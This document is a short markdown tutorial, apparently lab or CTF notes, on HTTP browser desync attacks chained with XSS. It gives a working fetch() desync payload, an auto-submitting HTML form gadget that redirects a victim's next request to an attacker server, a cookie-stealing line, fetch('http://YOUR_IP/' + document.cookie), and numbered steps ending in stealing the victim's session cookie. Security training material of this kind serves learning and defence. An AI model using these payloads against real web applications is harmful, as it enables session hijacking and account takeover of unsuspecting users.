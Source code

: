# HTTP Browser Desync Attack

### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

### This attack occurs in two steps:

#### 1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 

#### 2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

### Straightforward payload example:

fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})

### Write this JavaScript Payload in your browser command line that you can write JS

### Command breakdown:

#### 1) http://MACHINE_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.

#### 2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

#### 3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.

#### 4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.

# Browser Desync exploit chaining XSS

### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. 

### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

<>form id="btn" action="http://MACHINE_NAME.COM/"
    method="POST"
    enctype="text/plain">
<>textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<>button type="submit">placeholder2</button>
</form>
<><script> btn.submit() </script>

### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);

### Steps to exploit a vulnerable application:

#### 1) Use straightforward payload to test for browser desync vulnerability

#### 2) Type in the form included to the vulnerable part of the application

#### 3) sudo python3 smugglingserver.py

#### 4) sudo python3 -m http.server 8080

#### 5) Send the request

#### 6) After one minute or so, we steal the user's session cookie
